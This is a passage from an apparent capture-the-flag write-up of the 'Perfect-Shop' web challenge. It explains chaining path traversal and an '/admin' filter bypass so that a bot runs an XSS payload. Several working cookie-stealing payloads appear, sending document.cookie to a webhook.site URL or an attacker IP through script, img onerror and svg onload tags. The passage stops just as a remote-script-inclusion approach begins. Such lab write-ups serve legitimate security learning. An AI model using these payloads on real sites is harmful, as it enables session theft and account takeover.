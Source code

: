 Note how I had to use one `/admin` to bypass the filter when communicating with the bot and another to bypass the filter when tricking the bot into performing a search in the related endpoint.

Of course, starting such a chain (?) means properly handling URL encoding to ensure that the parameters are correctly spread between the POST made to the report endpoint (to which the parameters `id` and `message` will be sent) and the request made by the bot to the search endpoint (to which the necessary parameter `search` and the dummy parameter `lol` will be sent).

Once the URL encoding is correctly applied, the result should be this: `id=1/../../search%3flol%3d"/admin"%26q%3d<script>window.location%253d"https%253a//webhook.site/[REDACTED]%253d"%252bdocument.cookie</script>&message=/admin`.

Since it's not excluded by the filter, it will be necessary to bypass the filter also in the report endpoint. To do this, simply add any query parameter with the value `/admin` or `'/admin'` in the report URL. In Burp Suite, the final payload will be:

<img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/img/PayloadNoLenght.png" alt="Final payload without length filter">
By doing this, you should again get the flag on the webhook as before. Now there's one last obstacle to overcome...

#### Last Step: Length Filter Bypass
This step didn't require any rocket science. Let's say I simply aimed to find the shortest possible payload with the same philosophy as the previous ones. For completeness, I'll add a subsection with the various things I tried during the competition.

##### What I Tried During the Competition
- First of all, I tried several times to exploit [unicode normalization](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html), with a payload like [`<script src=//ﬀﬀ.pw>`](https://jlajara.gitlab.io/XSS_20_characters), but it seemed useless to me because it wouldn't have allowed me to exfiltrate the cookie (which is absolutely not true) since I wouldn't have been able to append the contents of `document.cookie`, as the use of `src` alone wouldn't have allowed me to execute JavaScript code;
  
- I tried using `onerror` like this: `<img src/onerror=this.src='https://[IP]/'+document.cookie>`, but it still went beyond the allowed 50 characters;
  
- I found a way to not specify the protocol, resulting in `<img src/onerror=this.src='//[IP]/'+document.cookie>`. Still way too long.
  
- I tried changing the tag, first with the script tag `<script>location='//[IP]/'+document.cookie`, where `location` is a shortcut to access `window location`, but I realized that the payload wouldn't work unless I closed the tag.
  
- Again, this time with `<svg onload=location='//[IP]/'+document.cookie>`, but with the IP, I would have still exceeded the character limit by a few.

After trying and retrying, convincing myself more and more that I wasn't using the right approach, and scrutinizing the challenge files over and over again, including the templates that I considered completely safe, my eyes fell on the commented Bootstrap CDN.

What is done with the CDN is to include JavaScript code present on an external server on the page that calls it. To do this, all you need is a reference to this server and a `script` tag. Eureka.

#### XSS RFI
I think I can call it a Remote File Inclusion?
